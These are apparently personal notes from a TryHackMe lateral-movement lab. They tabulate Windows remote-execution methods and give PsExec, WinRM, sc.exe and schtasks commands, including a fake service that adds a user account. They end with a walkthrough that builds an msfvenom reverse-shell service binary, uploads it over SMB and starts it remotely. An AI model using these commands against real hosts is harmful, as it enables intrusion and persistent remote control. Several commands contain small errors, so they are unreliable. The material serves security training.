



# Spawning processes remotely

| Remote Session           | Port(s)                     | Requirements                               |
|--------------------------|-----------------------------|--------------------------------------------|
| PsExec                   | TCP/445                     | Account must be an administrator           |
| WinRM over HTTP          | TCP/5985                    | Group Memberships: Remote Management Users |
| WinRM over HTTPS         | TCP/5986                    | Group Memberships: Remote Management Users |
| DCE/RPC                  | TCP/135, TCP/49152-65535 | Group Memberships: Administrators          |
| RPC over SMB Named Pipes | TCP/445                     | Group Memberships: Administrators          |
| RPC over SMB Named Pipes | TCP/139                     | Group Memberships: Administrators          |

## PsExec

|  |
|:--:|
| Authentication workflow |

1. Connect to `Admin$` share and upload a service binary `psexesvc.exe`.
2. Connect to the service control manager to create and run a service named `PSEXESVC` and associate the service 
binary with `C:\Windows\psexesvc.exe`.
3. Create some named pipes to handle `stdin`/`stdout`/`stderr`.

Start a remote command prompt:

    .\psexec.exe \\<IP target> -u <username> -p <password> -i cmd.exe

## WinRM

PowerShell:

    $username = 'user.name'
    $password = 'mypass' | ConvertTo-SecureString -AsPlainText -Force
    $credential = [pscredential]::new($username, $password)
    $session = New-PSSession -ComputerName target-ip -Credential $credential
    $session | Enter-PSSession

Cleanup:

    $session | Remove-PSSession

A single command:

    $username = 'user.name'
    $password = 'mypass' | ConvertTo-SecureString -AsPlainText -Force
    $credential = [pscredential]::new($username, $password)
    Invoke-Command -ComputerName target-ip -Credential -ScriptBlock {Get-ComputerInfo}

## sc.exe

Remote command execution by registering and running services on a host. The service is configured to run a command 
at start up.

|  |
|:--:|
| Try authenticating to the Service Control Manager using RPC first. |

If RPC fails:

|  |
|:--:|
| Try communicating using an SMB named pipe |

Register the fake service (`binpath` is the command to run on the host)

    sc.exe \\<IP Target> create <fakeservice> binpath= "net user <username> <password> /add" start= auto

Start the remote service to run the command:

    sc.exe \\<IP Target> start <fakeservice>

Stop and cleanup:

    sc.exe \\<IP Target> stop <fakeservice>
    sc.exe \\<IP Target> delete <fakeservice>

## schtasks

Remote command/payload execution by registering a scheduled task on a host.

Create and run Task:

    schtasks /s target-ip /RU "SYSTEM" /create /tn "Task" /tr "powershell -command 'Get-ComputerInfo'" /sc ONCE /sd 01/01/1970 /st 00:00
    schtasks /s target-ip /run /tn "Task"

Cleanup:

    schtasks /s target-ip /tn "Task" /DELETE /F

## Get flag

Leverage a session on the jump host to deliver a payload to an IIS web server. The payload will connect back to 
the attack machine (Kali VM in my case).

Use the credentials downloaded (see [setup](setup.md)) to ssh into `thmjmp2`:

    ssh <username>@za.tryhackme.com@thmjmp2.za.tryhackme.com

On attack machine, create a service binary payload:

    msfvenom -p windows/shell_reverse_tcp LHOST=<IP address VPN> LPORT=4444 -f exe-service -o iispwn.exe

Use the given credentials to transfer the file to the IIS server:

    smbclient -c 'put iispwn.exe' -U <username> -W ZA '//thmiis.za.tryhackme.com/ADMIN$' <password>

Start a listener to receive the reverse shell from the IIS server:

    sudo nc -lnvp 4444

Use the `ssh` session on `thmjmp2` as reverse shell (no need for runas etc.):

    sc.exe \\thmiis.za.tryhackme.com create pwniis binpath= "%windir%\isspwn.exe" start= auto
    sc.exe \\thmiis.za.tryhackme.com start pwniis

Run the `flag.exe` file on the users desktop on THMIIS.